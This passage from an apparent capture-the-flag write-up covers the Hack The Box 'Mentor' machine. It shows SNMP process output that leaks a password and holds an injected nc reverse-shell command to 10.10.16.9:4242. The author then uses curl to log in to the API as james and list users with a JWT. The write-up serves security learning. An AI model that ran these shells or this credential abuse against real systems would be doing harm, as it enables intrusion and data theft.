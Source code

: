 ```bash
HOST-RESOURCES-MIB::hrSWRunParameters.1877 = STRING: "-namespace moby -id 03cde9245f87bb8dee1ad649db30a6789d0ad8264d9be26328ccbc777608f19f -address /run/containerd/containerd.sock"
HOST-RESOURCES-MIB::hrSWRunParameters.1898 = STRING: "-m uvicorn app.main:app --reload --workers 2 --host 0.0.0.0 --port 8000"
HOST-RESOURCES-MIB::hrSWRunParameters.1983 = STRING: "-proto tcp -host-ip 172.22.0.1 -host-port 81 -container-ip 172.22.0.2 -container-port 80"
HOST-RESOURCES-MIB::hrSWRunParameters.2002 = STRING: "-namespace moby -id 8ec56cb27181c04f61e25615aad76f3aab86d1ed088832119c8861d8f6e75164 -address /run/containerd/containerd.sock"
HOST-RESOURCES-MIB::hrSWRunParameters.2022 = STRING: "main.py"
HOST-RESOURCES-MIB::hrSWRunParameters.2051 = STRING: "-c from multiprocessing.semaphore_tracker import main;main(4)"
HOST-RESOURCES-MIB::hrSWRunParameters.2052 = STRING: "-c from multiprocessing.spawn import spawn_main; spawn_main(tracker_fd=5, pipe_handle=7) --multiprocessing-fork"
HOST-RESOURCES-MIB::hrSWRunParameters.2119 = STRING: "/usr/local/bin/login.py kj23sadkj123as0-d213"
HOST-RESOURCES-MIB::hrSWRunParameters.22614 = STRING: "-c tar -c -f /etc/passwd;rm f;mkfifo f;cat f|/bin/sh -i 2>&1|nc 10.10.16.9 4242 > f;/app_backkup.tar /app/ &"
HOST-RESOURCES-MIB::hrSWRunParameters.22618 = STRING: "f"
HOST-RESOURCES-MIB::hrSWRunParameters.22619 = STRING: "-i"
HOST-RESOURCES-MIB::hrSWRunParameters.22620 = STRING: "10.10.16.9 4242"
HOST-RESOURCES-MIB::hrSWRunParameters.22931 = STRING: "models.py"
```

## Command injection in the API
This password doesn't work either with usernames james or admin as ssh password, but if we come back to our api, we can now login as james with that password.
```bash
curl -sX 'POST' \
  'http://api.mentorquotes.htb/auth/login' \
  -H 'accept: application/json' \
  -H 'Content-Type: application/json' \
  -d '{
  "email": "james@mentorquotes.htb",
  "username": "james",
  "password": "kj23sadkj123as0-d213"
}' |\
jq "."
```
```json
"eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VybmFtZSI6ImphbWVzIiwiZW1haWwiOiJqYW1lc0BtZW50b3JxdW90ZXMuaHRiIn0.peGpmshcF666bimHkYIBKQN7hj5m785uKcjwbD--Na0"
```

So we now have admin privileges on the api 
```bash
curl -sX 'GET' \
  'http://api.mentorquotes.htb/users/' \
  -H 'accept: application/json' \
  -H 'Authorization: eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VybmFtZSI6ImphbWVzIiwiZW1haWwiOiJqYW1lc0BtZW50b3JxdW90ZXMuaHRiIn0.peGpmshcF666bimHkYIBKQN7hj5m785uKcjwbD--Na0' \
  -H 'Content-Type: application/json' |\
jq "."
```
```json
[
  {
    "id": 1,
    "email": "james@mentorquotes.htb",
    "username": "james"
  },
  {
    "id": 2,
    "email": "svc@mentorquotes.htb",
    "username": "service_acc"
  }
```
